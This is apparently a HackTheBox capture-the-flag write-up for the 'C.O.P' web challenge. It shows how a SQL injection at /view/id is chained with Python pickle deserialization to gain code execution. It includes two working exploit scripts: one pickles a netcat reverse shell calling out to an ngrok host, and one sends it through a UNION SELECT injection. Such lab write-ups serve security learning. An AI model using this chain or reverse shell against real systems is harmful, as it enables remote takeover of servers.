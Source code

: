 ```yaml
---
title: "C.O.P"
date: 2024-05-24 21:12:38 +0700
categories: [hackthebox]
tags: [hackthebox, web, challenge]
authors: [toan]
toc: true
---
```

## introduction
The C.O.P (Cult of Pickles) have started up a new web store to sell their merch. We believe that the funds are being used to carry out illicit pickle-based propaganda operations! Investigate the site and try and find a way into their operation!
## Recons
when you checking the code,  you will see that it has an SQLI vuln at `/view/id`, but the DB dont have sensitive or import data. `app.py` uses `pickle` package,a module for serializing and deserializing data. [exploiting-python-pickle](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)
![image.png](https://i.postimg.cc/ryrnTpPs/image.png)

```python
## expl0.py
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('nc 0.tcp.ap.ngrok.io 13889 -e /bin/sh')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

```python
## expl1.py
import requests
## payload is output from expl0.py
payload = "gASVQAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCVuYyAwLnRjcC5hcC5uZ3Jvay5pbyAxMzg4OSAtZSAvYmluL3NolIWUUpQu"
url = f'http://94.237.54.176:32530/view/\' UNION SELECT \'{payload}'
requests.get(f'http://94.237.54.176:32530/view/\' UNION SELECT \'{payload}')
```
![image.png](https://i.postimg.cc/3RbPcbNq/image.png)

Got it! the url corresponds to the SQL query `SELECT data FROM products WHERE id='' UNION SELECT '<payload>'`, and the pickle data is deserialized by `app.py`. For futher details on why this works, you can read the analysis of this vuln in the blog provided above. In sumary, this challenge combines between SQLI and the vuln in `pickle` package.